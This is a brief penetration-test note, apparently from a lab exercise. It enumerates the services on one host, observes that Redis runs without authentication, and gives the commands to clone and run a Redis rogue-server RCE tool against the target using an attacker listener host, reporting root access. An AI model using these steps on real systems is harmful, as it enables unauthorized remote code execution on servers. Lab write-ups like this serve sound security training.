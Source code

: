 
## System Info
- **IP:** 192.168.119.69  
- **OS/Tech:**  

---

##  Credentials
- **User:** _(none found)_  
- **Password:** _(none)_  

---

## Service Enumeration
| Port     | State | Service      | Version                             |
| -------- | ----- | ------------ | ----------------------------------- |
| **22**   | open  | ssh          | OpenSSH 7.4p1 Debian 10+deb9u7       |
| **80**   | open  | http         | nginx 1.10.3                        |
| **6379** | open  | redis        | Redis key-value store 5.0.9         |
| **8080** | open  | http-proxy   | NodeBB (version unknown)            |

---

## Initial Observations
- **HTTP (80):** default nginx landing page; no source leaks.  
- **Redis (6379):** no `requirepass`; can connect via `redis-cli`; `GET` without key returns usage error.  
- **HTTP‑Proxy (8080):** NodeBB forum; version not disclosed.  
- **SSH (22):** no valid credentials.

---

## Exploitation: Redis Rogue‑Server RCE
1. **Clone exploit repo**  
   ```bash
   git clone https://github.com/n0b0dyCN/redis-rogue-server.git
   cd redis-rogue-server
   ./redis-rogue-server.py \
  --rhost 192.168.119.69 \
  --rport 6379 \
  --lhost 192.168.45.183
  ```
ROOT !!!!





